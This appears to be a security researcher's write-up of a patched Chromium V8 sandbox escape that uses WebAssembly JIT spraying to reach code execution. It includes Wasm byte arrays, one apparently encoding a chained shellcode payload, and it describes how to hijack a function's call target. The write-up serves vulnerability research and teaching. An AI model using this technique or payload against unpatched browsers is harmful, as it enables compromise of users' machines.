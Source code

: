 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 1 (Chromium < 106.0.5249.61)

In this post, I will explain how to escape V8 sandbox to get RCE via WebAssembly JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS
- [cb5c1b8a1fd1eee214501ee06fdd4566886803c1](https://chromium.googlesource.com/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1) (Jul 26th, 2022)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly jump table

```js
// flags: --allow-natives-syntax --shell

/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

Each `jmp` instruction in jump table is pointing the address of compiled code of each function in Wasm module.

The address of jump table is stored in [`WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=325), as [`jump_table_start`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=360).

![](img/3.png)

![](img/4.png)

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L7) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L12)/[AAW](./pwn.js#L24) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
/*
(module
    (func (export "main")
        i64.const 0x4141414141414141
        i64.const 0x4242424242424242
        i64.const 0x4343434343434343
        return
    )
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x26, 0x1, 0x24, 0x0, 0x42, 0xc1, 0x82, 0x85, 0x8a, 0x94, 0xa8, 0xd0, 0xa0, 0xc1, 0x0, 0x42, 0xc2, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0xa1, 0xc2, 0x0, 0x42, 0xc3, 0x86, 0x8d, 0x9a, 0xb4, 0xe8, 0xd0, 0xa1, 0xc3, 0x0, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);

let wasm_instance = new WebAssembly.Instance(wasm_module);
% DebugPrint(wasm_instance);
```

![](img/5.png)

`main()` in `wasm_module` is a function which loads 64-bit constants. These constants are inserted to the compiled code as raw numbers. It means that we can insert arbitrary 8-byte constants to executable code region. If we move `rip` to the address of any constant, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/6.png)

![](img/7.png)

If `main()` loads the same number twice, the second is not inserted to compiled code. Then, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different. In addition, we should consider that the distance between shellcodes is changed from the middle because the code which backs registers up to stack is inserted if all registers are in use.

[`pwn.wat`](./pwn.wat)

[`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

### Hijack execution flow

When Wasm function is called, we can see following execution flow:

![](img/8.png)

![](img/9.png)

![](img/10.png)

`WasmInternalFunction` object is inside of V8 sandbox, so we can overwrite its call target using sandboxed AAW primitive and control `rip`.

[`pwn.js`](./pwn.js)

![](img/11.png)

## Patch

> [[sandbox] Refactor and sandboxify WasmInternalFunction::call_target](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) (Jul 26th, 2022)
> This CL refactors WasmInternalFunction to no longer inherit from Foreign but instead contain a (sandboxed) ExternalPointer field for the call target.